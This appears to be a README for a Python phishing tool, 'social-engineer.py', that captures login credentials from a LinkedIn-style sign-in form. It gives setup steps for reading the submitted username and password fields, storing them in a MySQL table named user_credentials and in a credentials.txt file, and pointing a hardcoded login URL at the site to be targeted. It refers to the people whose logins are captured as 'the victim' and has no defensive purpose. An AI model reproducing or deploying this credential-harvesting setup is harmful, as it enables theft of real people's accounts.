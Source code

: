 (python social-engineer.py) To run the program

username = request.form.get('session_key')
password = request.form.get('session_password')
change the get value of the username and password to the id or name of the form input you want to target


connect your database:
db_config = {
    'host': 'localhost',
    'user': 'root',  # Default MySQL username
    'password': '',  # Empty password (you can replace this with your actual password if set)
    'database': 'social_eng_python'
}
change the database value to your own database name



insert_query = "INSERT INTO user_credentials (username, password) VALUES (%s, %s)"
cursor.execute(insert_query, (username, password))
create a table name user_credentials, then give it column of username and password.
the user_credentials is where the value of the victim will be showing in the database after you have successfully connect you code with mysql database.



and don't forget that we have a file in the folder named credentials.txt, the victim value is also saving in the file, you can also be checking that.


# Hardcoded website link
website_url = 'https://www.linkedin.com/uas/login?fromSignIn=true&trk=cold_join_sign_in%27'
change the website_url value to the website you want to target

check your database table to see the victim value


run your code with python social-engineer.py
